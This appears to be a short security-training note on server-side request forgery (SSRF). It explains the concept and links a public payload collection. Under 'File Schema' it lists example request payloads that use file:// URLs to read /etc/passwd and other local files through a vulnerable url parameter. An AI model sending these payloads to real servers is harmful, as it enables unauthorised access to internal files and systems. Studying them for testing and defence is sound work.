 # Server-Side Request Forgery (SSRF)

## Introduction

* <mark style="color:yellow;">An attacker can expose internal network configurations and have the ability to reveal secrets and other information from internal network enumeration stemming from a vulnerable web app</mark>
* In some cases, you may be able to <mark style="color:yellow;">access other internal systems</mark>

<figure><img src="../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

### Fundamentals

* Basically, a <mark style="color:yellow;">SSRF</mark> is when an attacker will forge a <mark style="color:yellow;">request that will act as a proxy</mark>
* This proxy will point to EITHER a <mark style="color:yellow;">local or remote source</mark>
* The RESPONSE will contain the data resulting from the request

## Attack Vectors

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Request%20Forgery#tools" %}

### File Schema:&#x20;

<mark style="color:yellow;">`GET /?url=file:///etc/passwd HTTP/1.1`</mark>

* Notice the 3 /'s&#x20;

<mark style="color:yellow;">`GET /?url=file:/PathToFile`</mark>

<mark style="color:yellow;">`GET /?url=file://hostname/PathToFile`</mark>
